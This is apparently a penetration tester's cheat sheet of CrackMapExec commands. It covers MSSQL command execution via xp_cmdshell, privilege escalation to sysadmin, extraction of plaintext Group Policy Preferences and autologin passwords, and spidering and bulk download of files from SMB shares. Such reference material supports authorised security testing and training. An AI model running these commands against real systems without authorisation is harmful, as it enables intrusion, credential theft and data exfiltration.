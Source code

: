 ## MSSQL Enumeration and Attacks

| **Command**| **Description**|
|-|-|
| `cme mssql <target> -u <u> -p <p> -q <SQL_QUERY>` | Perform an SQL Query againts the target machine. |
| `cme mssql <target> -u <u> -p <p> -x <command>` | Executing Windows command on the target if the option `xp_cmdshell` is available to the user. |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv` | Enumerates MSSQL privileges to scale from a standard user into a sysadmin.  |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv -o ACTION=privesc` | Exploit MSSQL privileges to scale from a standard user into a sysadmin. |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv -o ACTION=rollback` | Rollback user's privileges to standard user. |
| `cme mssql <target> -u <u> -p <p> --share <share_name> --get-file <remote_filename> <output_filename>` | Get a remote file from a shared folder. |
| `cme mssql <target> -u <u> -p <p> --share <share_name> --put-file <local_filename> <remote_filename>` | Put a local file into a remote location. |

---
## Domain Enumeration

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> -M gpp_password` | Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences (GPP). |
| `cme smb <target> -u <u> -p <p> -M gpp_autologin` | Searches the domain controller for registry.xml to find autologin information and returns the username and password. |

---
## File Operations

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> --spider <share_name> --pattern <pattern> ` | Search in a remote share for a pattern. | 
| `cme smb <target> -u <u> -p <p> --spider <share_name> --regex <regex> ` | Search in a remote share using regular expression. | 
| `cme smb <target> -u <u> -p <p> --spider <share_name> --content` | Enable content search. Can be combined with --pattern or --regex. | 
| `cme smb <target> -u <u> -p <p> --share <share_name> --get-file <remote_filename> <output_filename>` | Get a remote file from a shared folder. |
| `cme smb <target> -u <u> -p <p> --share <share_name> --put-file <local_filename> <remote_filename>` | Put a local file into a remote location. |
| `cme smb <target> -u <u> -p <p> -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL` | Creates a file containing the shares and files information. We can add the option EXCLUDE_DIR to prevent it from looking into specific shared folders. | 
| `cme smb <target> -u <u> -p <p> -M spider_plus -o READ_ONLY=false` | Download all files from all shared folder. | 

---
